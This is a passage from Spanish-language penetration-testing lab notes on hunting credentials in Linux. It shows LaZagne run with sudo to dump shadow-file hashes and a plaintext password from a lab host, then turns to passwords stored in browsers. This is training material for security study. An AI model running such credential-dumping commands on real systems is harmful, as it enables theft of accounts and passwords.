 - Keepass
- Mimipy
- Sessions
- Keyrings

Por ejemplo, "keyrings" se utiliza para el almacenamiento y la gestión seguros de contraseñas en distribuciones de Linux. Las contraseñas se almacenan cifradas y protegidas con una contraseña maestra. Se trata de un gestor de contraseñas basado en el sistema operativo, que analizaremos más adelante en otra sección. De esta forma, no es necesario recordar todas las contraseñas y se pueden guardar las contraseñas repetidas.

LaZagne se ejecuta con el comando:
```shell-session
Polika4RM@htb[/htb]$ sudo python2.7 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: systemd-coredump
Hash: !!:18858::::::

[+] Hash found !!!
Login: sambauser
Hash: $6$wgK4tGq7Jepa.V0g$QkxvseL.xkC3jo682xhSGoXXOGcBwPLc2CrAPugD6PYXWQlBkiwwFs7x/fhI.8negiUSPqaWyv7wC8uwsWPrx1:18862:0:99999:7:::

[+] Password found !!!
Login: cry0l1t3
Password: WLpAEXFa0SbqOHY


[+] 3 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.50091600418
```

---

## Credenciales en navegadores
Los navegadores almacenan las contraseñas guardadas por el usuario de forma cifrada localmente en el sistema para su reutilización. Por ejemplo, Mozilla Firefox almacena las credenciales cifradas en una carpeta oculta para el usuario correspondiente. Estas suelen incluir los nombres de campo, las URL y otra información valiosa.
